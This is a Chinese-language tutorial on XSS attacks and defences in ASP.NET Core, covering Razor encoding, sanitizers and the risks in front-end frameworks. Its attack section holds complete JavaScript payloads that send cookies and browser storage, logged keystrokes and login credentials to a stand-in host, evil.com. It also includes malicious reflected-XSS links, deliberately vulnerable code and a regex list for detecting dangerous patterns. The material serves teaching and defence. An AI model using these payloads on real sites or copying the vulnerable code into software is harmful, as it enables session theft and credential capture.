







# XSS跨站脚本攻防

> **学习目标**：深入理解XSS（Cross-Site Scripting）攻击的三种类型及其危害，掌握ASP.NET Core Razor引擎的自动编码机制，学会构建多层XSS防御体系，包括CSP策略、输出编码和前端框架安全实践。

## 📚 目录

- [威胁模型](#威胁模型)
- [XSS攻击原理深度剖析](#xss攻击原理深度剖析)
- [三种XSS类型详解](#三种xss类型详解)
- [攻击危害全景图](#攻击危害全景图)
- [Razor引擎自动HTML编码机制](#razor引擎自动html编码机制)
- [危险操作与安全替代方案](#危险操作与安全替代方案)
- [CSP内容安全策略配置](#csp内容安全策略配置)
- [前端框架中的XSS防护](#前端框架中的xss防护)
- [DOM Purify库集成](#dom-purify库集成)
- [完整实战：评论系统XSS防护](#完整实战评论系统xss防护)
- [安全检查清单](#安全检查清单)

---

## 威胁模型

### 为什么XSS如此危险？

XSS（Cross-Site Scripting）被命名为"跨站脚本"而非CSS（为了避免与层叠样式表混淆），是OWASP Top 10中长期占据前列的漏洞。其危险性在于：



**核心威胁**：XSS攻击让恶意JavaScript在**受害者的浏览器中**以**受害者的身份**运行。这意味着：
- 脚本可以访问受害者的所有Cookie（包括会话Cookie）
- 脚本可以读取和修改页面内容
- 脚本可以发起请求到任何域名（同源策略不限制）
- 脚本可以捕获用户的键盘输入、点击行为

### 攻击面分析

```mermaid
flowchart LR
    subgraph "XSS注入点"
        I1[URL参数<br/>?search=&lt;script&gt;]
        I2[表单输入<br/>评论区/搜索框]
        I3[HTTP头部<br/>User-Agent/Referer]
        I4[DOM操作<br/>location.hash/innerHTML]
        I5[WebSocket消息<br/>实时推送内容]
        I6[第三方数据源<br/>API响应/JSONP]
    end

    subgraph "易受攻击的输出位置"
        O1[innerHTML插入]
        O2[document.write]
        O3[jQuery.html]
        O4[v-html指令]
        O5[dangerouslySetInnerHTML]
        O6[@Html.Raw输出]
    end

    I1 --> O1
    I2 --> O2
    I3 --> O3
    I4 --> O4
    I5 --> O5
    I6 --> O6
```

---

## XSS攻击原理深度剖析

### 根本原因：信任边界混淆

XSS的根本原因是应用程序**未能正确区分"可信代码"和"不可信数据"**，将用户提供的未转义数据直接嵌入到HTML文档中。

```
正常情况：
┌────────────────────────────────────────────────────┐
│ HTML: <div>欢迎, <span id="name">张三</span></div> │
│ 数据: 张三（纯文本，被正确显示）                      │
└────────────────────────────────────────────────────┘

XSS情况：
┌──────────────────────────────────────────────────────────┐
│ HTML: <div>欢迎, <span id="name"><script>              │
│       stealCookie();</script></span></div>               │
│                                                          │
│ 浏览器解析：                                              │
│   <div>欢迎, </div>  ← 正常HTML                          │
│   <script>          ← 新的脚本块开始！                     │
│     stealCookie(); ← 恶意代码被执行                       │
│   </script>         ← 脚本块结束                          │
│                                                          │
│ 结果：恶意JavaScript在用户浏览器中运行                      │
└──────────────────────────────────────────────────────────┘
```

### 编码 vs 转义

理解XSS防护的关键是理解**HTML实体编码**：

| 字符 | 原始 | HTML编码后 | 作用 |
|------|------|-----------|------|
| `<` | `<` | `&lt;` | 防止标签开启 |
| `>` | `>` | `&gt;` | 防止标签关闭 |
| `&` | `&` | `&amp;` | 防止实体解析 |
| `"` | `"` | `&quot;` | 防止属性值逃逸 |
| `'` | `'` | `&#x27;` | 防止属性值逃逸 |
| `/` | `/` | `&#x2F;` | 防止标签关闭 |

---

## 三种XSS类型详解

### 类型总览对比表

| 特性 | 存储型XSS (Stored) | 反射型XSS (Reflected) | DOM型XSS (DOM-based) |
|------|-------------------|---------------------|---------------------|
| **持久性** | 永久存储在服务端 | 不持久，需诱骗点击 | 客户端处理 |
| **触发方式** | 访问包含payload的页面 | 点击恶意链接 | 特定用户交互 |
| **危害程度** | ⭐⭐⭐⭐⭐ 最高 | ⭐⭐⭐⭐ 高 | ⭐⭐⭐ 中高 |
| **发现难度** | 较难 | 中等 | 较难 |
| **利用难度** | 低（自动化蠕虫传播） | 中等（需社会工程学） | 高（特定场景） |
| **防御重点** | 输入验证+输出编码 | 输出编码+CSP | DOM安全编程 |

### 1. 存储型XSS（Stored XSS）

**原理**：恶意脚本被永久存储在目标服务器上（数据库、文件系统、缓存等），每次用户访问该页面时都会加载并执行。



**攻击示例 - 评论系统漏洞**：

```csharp
// ❌ 危险代码：存在存储型XSS漏洞
[HttpPost("comments")]
public async Task<IActionResult> AddComment([FromBody] CommentRequest request)
{
    var comment = new Comment
    {
        Content = request.Content, // 直接存储，未做任何处理！
        ArticleId = request.ArticleId,
        UserId = GetCurrentUserId(),
        CreatedAt = DateTime.UtcNow
    };

    _context.Comments.Add(comment);
    await _context.SaveChangesAsync();

    return Ok(new { Message = "评论发布成功" });
}

// 显示评论时（同样危险）
[HttpGet("articles/{articleId}/comments")]
public async Task<IActionResult> GetComments(int articleId)
{
    var comments = await _context.Comments
        .Where(c => c.ArticleId == articleId)
        .OrderByDescending(c => c.CreatedAt)
        .ToListAsync();

    return View(comments); // 视图中直接输出Content字段
}
```

**Razor视图中的漏洞展示**：

```html
<!-- Comments.cshtml - 危险的视图代码 -->
@model List<Comment>

@foreach (var comment in Model)
{
    <div class="comment">
        <!-- ❌ 危险：直接输出用户内容，未编码 -->
        <div class="comment-content">@comment.Content</div>

        <!-- 如果攻击者提交以下内容作为评论： -->
        <!-- <script>
            fetch('https://evil.com/steal?cookie=' + document.cookie);
        </script> -->

        <!-- 每个访问此页面的用户都会执行这段脚本！ -->
        <small>@comment.CreatedAt</small>
    </div>
}
```

**真实案例**：

- **Samy MySpace蠕虫（2005）**：Samy Kamkar通过存储型XSS创建了一个自我复制的蠕虫，仅20小时内感染了超过100万个MySpace账户。每次有人查看Samy的个人资料，都会自动添加他为好友并发送相同的XSS payload。
- **Twitter 2010 XSS蠕虫**：攻击者利用Twitter的XSS漏洞创建了一个自我传播的蠕虫，用户只需查看一条推文就会被感染，然后自动转发给关注者。
- **2014 eBay XSS漏洞**：允许攻击者在商品描述中注入脚本，影响数百万用户。

### 2. 反射型XSS（Reflected XSS）

**原理**：恶意脚本通过请求参数传递给服务器，服务器将脚本"反射"回响应中立即执行。通常需要攻击者诱骗受害者点击特制链接。



**攻击示例 - 搜索功能漏洞**：

```csharp
// ❌ 危险代码：反射型XSS漏洞
[HttpGet("search")]
public IActionResult Search(string q)
{
    ViewBag.SearchTerm = q; // 直接将查询词传给视图

    var results = _productService.Search(q); // 也可能存在SQL注入！

    return View(results);
}
```

```html
<!-- Search.cshtml -->
@model List<ProductResult>

<div class="search-results">
    <!-- ❌ 危险：反射用户输入 -->
    <p>您搜索的关键词：<span class="highlight">@ViewBag.SearchTerm</span></p>

    @if (!Model.Any())
    {
        <!-- 更危险的场景：直接在JavaScript中使用 -->
        <script>
            // 反射型XSS：如果q参数包含脚本，这里会被执行
            console.log("没有找到 '@ViewBag.SearchTerm' 的结果");
        </script>
    }
</div>
```

**攻击Payload示例**：

```bash
# 恶意链接示例
https://example.com/search?q=<script>document.location='http://evil.com/?c='+document.cookie</script>

# URL编码后（更隐蔽）
https://example.com/search?q=%3Cscript%3Edocument.location%3D%27http%3A%2F%2Fevil.com%2F%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E

# 短链接隐藏（社会工程学常用手段）
https://tinyurl.com/xxx → 重定向到上面的恶意URL
```

### 3. DOM型XSS（DOM-based XSS）

**原理**：完全在客户端完成，恶意脚本通过修改DOM环境来执行。服务器可能完全没有参与，传统的服务端防御无法检测。



**攻击示例 - 前端路由漏洞**：

```javascript
// ❌ 危险代码：DOM型XSS漏洞
// 基于hash的单页应用路由

class Router {
    constructor() {
        window.addEventListener('hashchange', this.handleRoute.bind(this));
        this.handleRoute(); // 初始化时也处理一次
    }

    handleRoute() {
        const hash = window.location.hash.slice(1); // 获取 # 后面的内容

        // ❌ 危险：直接将hash内容插入DOM
        document.getElementById('app').innerHTML =
            this.renderPage(hash);

        // 或者更常见的场景：
        // 攻击者访问：page.html#
        // hash = ""
        // innerHTML 会将其解析为HTML元素并执行onerror事件
    }

    renderPage(pageName) {
        switch(pageName.toLowerCase()) {
            case 'home':
                return '<h1>首页</h1>';
            case 'about':
                return '<h1>关于我们</h1>';
            default:
                // ❌ 危险：未知页面名被直接插入
                return `<h1>404: 页面 ${pageName} 不存在</h1>`;
        }
    }
}

// 另一个常见场景：jQuery的不安全用法
// ❌ 危险
$('#user-message').html(userInput);

// eval的危险使用
// ❌ 极度危险
eval(`displayMessage("${userInput}")`);
// 攻击者输入: "); alert(document.cookie); //
// 实际执行: displayMessage(""); alert(document.cookie); //
```

**现代前端框架中的DOM XSS风险**：

```javascript
// React中的危险模式
function UserComponent({ content }) {
  // ✅ 安全：React自动转义
  return <div>{content}</div>;

  // ❌ 危险：dangerouslySetInnerHTML
  return <div dangerouslySetInnerHTML={{ __html: content }} />;

  // ❌ 危险：动态构建组件
  const Component = components[userInput]; // userInput = "Script"
  return <Component />;
}

// Vue中的危险模式
<template>
  <!-- ✅ 安全：Mustache语法自动转义 -->
  <div>{{ userContent }}</div>

  <!-- ❌ 危险：v-html指令 -->
  <div v-html="userContent"></div>
</template>
```

---

## 攻击危害全景图

### XSS能做什么？



### 具体攻击场景演示

#### 场景1：Cookie窃取与会话劫持

```javascript
// 攻击者注入的恶意脚本
(function() {
    // 1. 收集所有Cookie
    var cookies = document.cookie;

    // 2. 收集当前页面URL
    var currentUrl = window.location.href;

    // 3. 收集localStorage数据
    var localStorageData = {};
    for (var i = 0; i < localStorage.length; i++) {
        var key = localStorage.key(i);
        localStorageData[key] = localStorage.getItem(key);
    }

    // 4. 收集sessionStorage数据
    var sessionStorageData = {};
    for (var i = 0; i < sessionStorage.length; i++) {
        var key = sessionStorage.key(i);
        sessionStorageData[key] = sessionStorage.getItem(key);
    }

    // 5. 构造泄露数据包
    var stolenData = {
        cookies: cookies,
        url: currentUrl,
        localStorage: localStorageData,
        sessionStorage: sessionStorageData,
        userAgent: navigator.userAgent,
        timestamp: new Date().toISOString()
    };

    // 6. 发送到攻击者服务器（多种方式绕过检测）
    // 方式A：Image beacon（最隐蔽，无跨域限制）
    new Image().src = 'https://evil.com/collect?' +
        'data=' + encodeURIComponent(btoa(JSON.stringify(stolenData)));

    // 方式B：fetch API（可能被CSP阻止）
    fetch('https://evil.com/api/collect', {
        method: 'POST',
        mode: 'no-cors', // 绕过CORS限制
        body: JSON.stringify(stolenData)
    });

    // 方式C：Form submission（绕过某些CSP规则）
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'https://evil.com/collect';
    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'data';
    input.value = JSON.stringify(stolenData);
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
})();
```

#### 场景2：键盘记录器

```javascript
// 全局键盘记录器 - 记录所有按键
document.addEventListener('keydown', function(e) {
    var key = e.key;

    // 特殊键映射
    if (e.key === 'Enter') key = '[ENTER]';
    else if (e.key === 'Tab') key = '[TAB]';
    else if (e.key === 'Backspace') key = '[BACKSPACE]';
    else if (e.key === 'Delete') key = '[DELETE]';
    else if (e.key === ' ') key = '[SPACE]';
    else if (e.ctrlKey && e.key === 'c') key = '[CTRL+C]';
    else if (e.ctrlKey && e.key === 'v') key = '[CTRL+V]';

    // 记录按键及上下文
    var logEntry = {
        key: key,
        target: e.target.tagName + (e.target.id ? '#' + e.target.id : ''),
        timestamp: Date.now(),
        url: window.location.href
    };

    // 缓存日志，定期批量发送
    window._keyLog = window._keyLog || [];
    window._keyLog.push(logEntry);

    // 每10秒或积累50条记录时发送
    if (window._keyLog.length >= 50) {
        sendKeystrokeLog();
    }
});

setInterval(sendKeystrokeLog, 10000);

function sendKeystrokeLog() {
    if (!window._keyLog || window._keyLog.length === 0) return;

    var data = JSON.stringify(window._keyLog);
    new Image().src = 'https://evil.com/keylog?' +
        btoa(data);

    window._keyLog = [];
}
```

#### 场景3：网页篡改与钓鱼

```javascript
// 动态替换登录表单进行钓鱼攻击
(function() {
    // 1. 找到现有的登录表单
    var loginForms = document.querySelectorAll('form[action*="login"], form[id*="login"]');

    loginForms.forEach(function(form) {
        // 保存原始action
        var originalAction = form.action;

        // 修改表单提交地址到攻击者服务器
        form.action = 'https://evil.com/phishing';

        // 添加隐藏字段记录原始目标
        var hiddenInput = document.createElement('input');
        hiddenInput.type = 'hidden';
        hiddenInput.name = 'original_target';
        hiddenInput.value = originalAction;
        form.appendChild(hiddenInput);

        // 可选：添加额外的密码字段
        // （有些用户会在不同网站重复使用密码）
        var extraField = document.createElement('input');
        extraField.type = 'password';
        extraField.name = 'confirm_password';
        extraField.placeholder = '请再次输入密码';
        extraField.style.display = 'none'; // 隐藏但仍然提交
        form.appendChild(extraField);
    });

    // 2. 或者完全替换页面内容
    if (window.location.pathname.includes('/login')) {
        document.body.innerHTML = `
            <div style="max-width:400px;margin:50px auto;padding:20px;
                        border:1px solid #ddd;border-radius:8px">
                <h2>系统升级通知</h2>
                <p style="color:red">为了您的账户安全，请重新验证身份：</p>
                <form action="https://evil.com/phishing" method="POST">
                    <input type="text" name="username" placeholder="用户名"
                           style="width:100%;padding:10px;margin:10px 0">
                    <input type="password" name="password" placeholder="密码"
                           style="width:100%;padding:10px;margin:10px 0">
                    <button type="submit" style="width:100%;padding:10px;
                            background:#007bff;color:white;border:none">
                        验证身份
                    </button>
                </form>
            </div>
        `;
    }
})();
```

---

## Razor引擎自动HTML编码机制

### ASP.NET Core的安全默认设置

ASP.NET Core的Razor引擎采用了**安全默认**原则：所有通过`@`表达式输出的内容都会自动进行HTML编码。

```csharp
// 控制器
public IActionResult Demo(string userInput)
{
    ViewBag.UserInput = userInput;
    ViewData["Message"] = userInput;

    var model = new { Content = userInput };
    return View(model);
}
```

```html
<!-- Demo.cshtml - 展示Razor的自动编码机制 -->
@model dynamic

<h1>Razor自动编码演示</h1>

<!-- 场景1：ViewBag输出 -->
<p>ViewBag输出：@ViewBag.UserInput</p>
<!-- 如果 userInput = <script>alert('XSS')</script> -->
<!-- 输出：ViewBag输出：&lt;script&gt;alert(&#39;XSS&#39;)&lt;/script&gt; -->
<!-- 浏览器显示：<script>alert('XSS')</script>（作为纯文本，不会执行）-->

<!-- 场景2：ViewData输出 -->
<p>ViewData输出：@ViewData["Message"]</p>
<!-- 同样自动编码 -->

<!-- 场景3：模型绑定输出 -->
<p>模型输出：@Model.Content</p>
<!-- 同样自动编码 -->

<!-- 场景4：JavaScript字符串中的输出 -->
<script>
    // ⚠️ 注意：这里虽然进行了HTML编码，
    // 但如果用于JavaScript上下文，还需要JS编码
    var message = '@Html.Raw(JsonConvert.SerializeObject(ViewBag.UserInput))';
    // 更好的做法：使用Json.Serialize辅助方法
    var message2 = @Json.Serialize(ViewBag.UserInput);
</script>

<!-- 场景5：HTML属性中的输出 -->
<input type="text" value="@Model.Content" />
<!-- 自动对引号进行编码，防止属性逃逸 -->
```

### 编码机制内部实现

```csharp
// Razor底层使用的编码器接口
public interface HtmlEncoder
{
    /// <summary>
    /// 对字符串进行HTML编码
    /// 将 < > & " ' / 等字符转换为HTML实体
    /// </summary>
    string Encode(string value);

    /// <summary>
    /// 写入编码后的文本到TextWriter
    /// </summary>
    void Encode(TextWriter output, string value);

    /// <summary>
    /// 编码指定范围的子字符串
    /// </summary>
    void Encode(TextWriter output, char[] value, int startIndex, int characterCount);
}

// ASP.NET Core默认使用Unicode-safe的HtmlEncoder
// 可以自定义编码规则范围
public class CustomHtmlEncoder : HtmlEncoder
{
    private readonly HtmlEncoder _innerEncoder;
    private readonly HashSet<UnicodeCategory> _allowedCategories;

    public override void Encode(TextWriter output, string value)
    {
        foreach (var ch in value)
        {
            if (_allowedCategories.Contains(char.GetUnicodeCategory(ch)))
            {
                output.Write(ch);
            }
            else
            {
                _innerEncoder.Encode(output, ch.ToString());
            }
        }
    }
}
```

### 不同上下文的编码需求

```mermaid
graph TB
    subgraph "输出上下文决定编码方式"
        H1[HTML Body<br/>@variable] --> HE[HTML Entity Encoding<br/>&amp; &lt; &gt;]
        HA[HTML Attribute<br/>attr="@var"] --> HEA[Attribute Encoding<br/>额外转义引号]
        JS[JavaScript<br/>var x = '@var'] --> JE[JavaScript Encoding<br/>\xHH Unicode转义]
        CSS[CSS<br/>style="color: @var"] --> CE[CSS Encoding<br/>只允许预定义值]
        URL[URL[href="@var"] --> UE[URL Encoding<br/>encodeURIComponent]
    end

    style HE fill:#27ae60,color:#fff
    style JE fill:#3498db,color:#fff
    style CE fill:#9b59b6,color:#fff
    style UE fill:#e67e22,color:#fff
```

---

## 危险操作与安全替代方案

### @Html.Raw() 的危险使用

```html
<!-- ❌ 危险：直接使用Html.Raw -->
<div class="content">
    @Html.Raw(Model.Content)
    <!-- 如果 Model.Content 包含恶意HTML，将被直接渲染执行！ -->
</div>

<!-- ✅ 安全替代方案1：使用Markdown（推荐用于富文本） -->
<div class="content">
    @Html.Raw(Markdown.ToHtml(Model.Content, markdownPipeline))
    <!-- 使用受信任的Markdown解析器，只允许安全的HTML子集 -->
</div>

<!-- ✅ 安全替代方案2：白名单HTML过滤 -->
<div class="content">
    @Html.Raw(SanitizeHtml(Model.Content))
    <!-- 自定义的HTML消毒函数 -->
</div>

<!-- ✅ 安全替代方案3：使用结构化编辑器 -->
<div class="content">
    <!-- 只接受特定格式的结构化数据（如JSON），由服务端渲染 -->
    @(await Component.InvokeAsync("RichTextRenderer", new { Content = Model.Content }))
</div>
```

### HTML过滤器的安全实现

```csharp
/// <summary>
/// HTML消毒服务 - 移除潜在危险的HTML标签和属性
/// </summary>
public interface IHtmlSanitizer
{
    string Sanitize(string html);
}

/// <summary>
/// 基于Ganss.XSS库实现的HTML消毒器
/// </summary>
public class HtmlSanitizer : IHtmlSanitizer
{
    private readonly Ganss.XSS.HtmlSanitizer _sanitizer;

    public HtmlSanitizer()
    {
        _sanitizer = new Ganss.XSS.HtmlSanitizer();

        // 允许的标签白名单（最小化原则）
        _sanitizer.AllowedTags = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
        {
            // 文本格式
            "p", "br", "strong", "b", "em", "i", "u", "s", "sub", "sup",
            // 标题
            "h1", "h2", "h3", "h4", "h5", "h6",
            // 列表
            "ul", "ol", "li",
            // 引用
            "blockquote", "pre", "code",
            // 链接
            "a",
            // 图片
            "img",
            // 表格（可选，根据业务需求）
            "table", "thead", "tbody", "tr", "th", "td",
            // 分隔线
            "hr"
        };

        // 允许的属性白名单
        _sanitizer.AllowedAttributes = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
        {
            // 通用属性
            "class", "id", "title", "lang", "dir",
            // 链接
            "href", "target", "rel",
            // 图片
            "src", "alt", "width", "height",
            // 其他
            "colspan", "rowspan"
        };

        // 允许的CSS属性（非常严格）
        _sanitizer.AllowedCssProperties = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
        {
            "color", "background-color",
            "font-size", "font-weight",
            "text-align",
            "margin-left", "margin-right"
        };

        // 允许的URL协议（白名单）
        _sanitizer.AllowedSchemes = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
        {
            "http", "https", "mailto", "tel"
        };

        // 移除所有事件处理器属性
        _sanitizer.RemoveAttributes.Add("on*");

        // 配置：移除style标签中的危险内容
        _sanitizer.AllowDataRelativeUrls = false;

        // 配置：移除HTML注释（可能包含条件注释攻击）
        _sanitizer.RemoveComments = true;
    }

    public string Sanitize(string html)
    {
        if (string.IsNullOrWhiteSpace(html))
            return string.Empty;

        try
        {
            // 执行消毒
            var sanitized = _sanitizer.Sanitize(html);

            // 二次验证：确保没有遗漏
            if (ContainsDangerousPatterns(sanitized))
            {
                // 如果仍有危险模式，返回纯文本版本
                return StripAllHtml(html);
            }

            return sanitized;
        }
        catch (Exception ex)
        {
            // 出错时返回纯文本（安全降级）
            return System.Net.WebUtility.HtmlEncode(html);
        }
    }

    private bool ContainsDangerousPatterns(string html)
    {
        var dangerousPatterns = new[]
        {
            @"<script", @"javascript:", @"vbscript:",
            @"on\w+\s*=", @"expression\s*\(",
            @"import\s", @"document\.", @"window\.",
            @"eval\s*\(", @"setTimeout\s*\(", @"setInterval\s*\("
        };

        foreach (var pattern in dangerousPatterns)
        {
            if (Regex.IsMatch(html, pattern, RegexOptions.IgnoreCase))
                return true;
        }

        return false;
    }

    private string StripAllHtml(string html)
    {
        // 移除所有HTML标签，只保留文本
        return Regex.Replace(html, "<[^>]*>", "");
    }
}
```

### JavaScriptStringEncode的使用

```csharp
/// <summary>
/// JavaScript字符串编码辅助方法
/// </summary>
public static class JavaScriptEncoderExtensions
{
    /// <summary>
    /// 安全地将C#字符串编码为JavaScript字符串字面量
    /// </summary>
    public static string EncodeForJavaScript(this string value)
    {
        if (string.IsNullOrEmpty(value))
            return string.Empty;

        // 使用内置的JavaScript编码器
        return System.Text.Encodings.Web.JavaScriptEncoder.Default.Encode(value);
    }

    /// <summary>
    /// 生成安全的JavaScript变量赋值语句
    /// </summary>
    public static string ToJsVar(string variableName, string value)
    {
        var encodedValue = EncodeForJavaScript(value);
        return $"var {variableName} = \"{encodedValue}\";";
    }
}

// 在Razor视图中使用
<script>
    // ❌ 危险写法
    // var username = "@ViewBag.Username";

    // ✅ 安全写法1：使用JavaScriptEncoder
    var username = "@ViewBag.Username.EncodeForJavaScript()";

    // ✅ 安全写法2：使用Json.Serialize（最推荐）
    var userData = @Json.Serialize(Model.UserData);

